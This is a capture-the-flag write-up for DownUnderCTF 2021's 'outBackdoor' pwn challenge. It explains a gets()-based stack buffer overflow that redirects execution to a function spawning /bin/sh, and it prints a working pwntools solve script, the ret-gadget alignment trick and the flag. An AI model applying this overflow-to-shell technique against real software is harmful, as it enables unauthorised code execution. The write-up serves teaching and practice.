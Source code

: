 # outBackdoor

![](/2021/DownUnderCTF2021/outBackdoor/images/1.png)

Checking the file and protection

![](/2021/DownUnderCTF2021/outBackdoor/images/2.png)

Use IDA to reverse

![](/2021/DownUnderCTF2021/outBackdoor/images/3.png)

This is a basic buffer overflow challenge, the gets function allow us to input more than 16 byte and overwrite the return address of main function. 

Look at the program, we see another function `outBackdoor`, which run `system(“/bin/sh”)` and give us the shell.

![](/2021/DownUnderCTF2021/outBackdoor/images/4.png)

So because the ELF have no PIE, so we just need to overwrite return address of main function to address of outBackdoor

![](/2021/DownUnderCTF2021/outBackdoor/images/5.png)

Address of `outBackdoor` is `0x4011d7`

There is another thing in this challenge that you need to pay attention to, that the server running this challange is ubuntu 64 bit, so when running a function, rsp needs to align with 16 bytes of padding. In other words, rsp & 0xf must be 0 .Just overwrite the main return address with address of outBackdoor causes rsp to not satisfy the above condition. With cause you segment fault. To fix it, simply push before it a ret_gadget. Do nothing but return to the next value on the stack, the address of `outBackdoor`, so because the stack pop 2 times, rsp & 0xf == 0. And the exploit will work on remote server.

The ret_gadget find with ROPgadget tool

![](/2021/DownUnderCTF2021/outBackdoor/images/6.png)

File [solve.py](/2021/DownUnderCTF2021/outBackdoor/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31921)
outBackdoor = 0x4011d7
ret = 0x401016
payload = b'A' * 24 + p64(ret) + p64(outBackdoor)
s.sendline(payload)
s.interactive()
```

![](/2021/DownUnderCTF2021/outBackdoor/images/7.png)

`flag: DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}`



